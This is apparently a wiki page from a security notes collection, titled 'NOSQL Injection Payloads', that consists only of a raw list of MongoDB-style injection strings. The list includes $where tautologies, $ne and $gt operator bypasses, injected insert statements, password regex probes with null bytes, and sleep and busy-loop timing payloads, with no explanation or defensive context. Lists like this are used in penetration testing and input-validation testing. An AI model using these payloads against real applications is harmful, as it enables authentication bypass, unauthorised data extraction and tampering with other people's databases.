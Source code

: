 ```yaml
---
title: Web Application Attacks
description: NOSQL Injection Payloads
published: true
date: 2021-01-21T03:38:28.324Z
tags: 
editor: markdown
dateCreated: 2021-01-21T03:34:38.781Z
---
```


NOSQLi Injection Payloads
true, $where: '1 == 1'
,$where: '1 == 1'
$where: '1 == 1'
',$where: '1 == 1'
1,$where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/./)//+%00
' && this.passwordzz.match(/./)//+%00
'%20%26%26%20this.password.match(/./)//+%00
'%20%26%26%20this.passwordzz.match(/./)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
